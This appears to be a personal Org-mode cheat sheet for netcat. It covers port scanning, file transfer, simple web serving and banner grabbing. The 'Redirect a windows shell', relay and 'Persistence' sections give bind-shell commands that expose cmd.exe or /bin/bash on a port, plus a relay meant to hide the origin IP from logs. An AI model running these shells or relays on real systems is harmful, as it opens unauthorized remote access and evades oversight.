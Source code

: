 #+TAGS: netcat secuirty_tool


* netcat
* Description
* Usage

> netcat <options> host port

** Send a udp packet instead of initiating with tcp connection
#+BEGIN_SRC sh
netcat -u $HOST $PORT
#+END_SRC

** Port Scanning 
- with the domain
#+BEGIN_SRC sh
netcat -z -v domain.com 1-1000 2>&1 | grep "succeeded"
#+END_SRC
- without the domain
#+BEGIN_SRC sh
netcat -z -n -v 127.0.0.1 1-1000 2>&1 | grep "succeeded"
#+END_SRC

** Communicate through Netcat
- On the server run
#+BEGIN_SRC sh
netcat -l 4444
#+END_SRC

#+BEGIN_SRC sh
netcat $DOMAIN 4444
#+END_SRC

- messages will now be able to send messages between the server and client

** Sending data 
- On the machine that wants the file
#+BEGIN_SRC sh
netcat -l 4444 > recieved_file
#+END_SRC

- On the sending machine
#+BEGIN_SRC sh
netcat $DOMAIN 4444 < original_file
#+END_SRC

*** Sending a directory compressed
- On the machine that wants the file
#+BEGIN_SRC sh
netcat -l 4444 | tar xvf -
#+END_SRC
- the dash indicates that the tar will operate on std input

- On the sending machine from inside the directory that is to be copied over
#+BEGIN_SRC sh
tar -czf - * | netcat $DOMAIN 4444
#+END_SRC

** Simple Web Server
- On sever run:
#+BEGIN_SRC sh
netcat -l 4444 < index.html
#+END_SRC

- To continually server page after first connection is closed
#+BEGIN_SRC sh
while true; do netcat -l 4444 < index.html; done
#+END_SRC

** Redirect a windows shell
#+BEGIN_SRC sh
nc -l -p 9999 -e cmd.exe
#+END_SRC
- ensure that the version of netcat that you use has the execute flag compiled
- always keep in mind that you are not in a terminal, but a cmd over the network

** Using netcat as a relay
Machine 1 - 192.168.0.10
#+BEGIN_SRC sh
netcat 192.168.0.11 -p 7777
#+END_SRC

Machine 2 - 192.168.0.11
#+BEGIN_SRC sh
netcat -l -p 7777 0<backpipe | netcat 192.168.0.12 8888 1>backpipe
#+END_SRC
- thiw now passes traffice between machine 1 and machine 2

Machine 3 - 192.168.0.12
#+BEGIN_SRC sh
netcat -L -p 9999 -e cmd.exe
#+END_SRC
L - persistent (only available on windows)

-for persistents on linux the script below can be used
#+BEGIN_SRC sh
while [ 1 ]; do echo "Netcat has 9 lives. Port is 7777"; nc -l -p 777 -e /bin/bash; done
#+END_SRC

All traffic logged on machine 3 would only show the ip for Machine 2

** Persistence
- Windows
#+BEGIN_SRC sh
netcat -L -p 9999 -e cmd.exe
#+END_SRC
L - persistent (only available on windows)

- Linux - 9lives.sh
#+BEGIN_SRC sh
while [ 1 ]; do echo "Netcat has 9 lives. Port is 7777"; nc -l -p 777 -e /bin/bash; done
#+END_SRC

** Tunneling with ssh
#+BEGIN_SRC sh
ssh -i Documents/id_rsa -L 8888:172.168.0.129:80 alick@172.16.0.134
#+END_SRC
** Getting site header
#+BEGIN_SRC sh
netcat example.com 80 <<END
HEAD / HTTP/1.1
Host: example.com


END
#+END_SRC
** Banner Grabbing
#+BEGIN_EXAMPLE
netcat 192.168.121.50 80 
GET HTTP 1/1
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.1
#+END_EXAMPLE

* Lecture
* Tutorial
** [[https://www.youtube.com/watch?v%3Dqo_sFS2A-mI][Introduction to Data Transfer with NetCat]]

* Books
[[file://home/crito/Documents/Security/Tools/Netcat_Starter.pdf][Netcat Starter]]
[[file://home/crito/Documents/Security/Tools/Netcat_Power_Tools.pdf][Netcat Power Tools]]
* Links
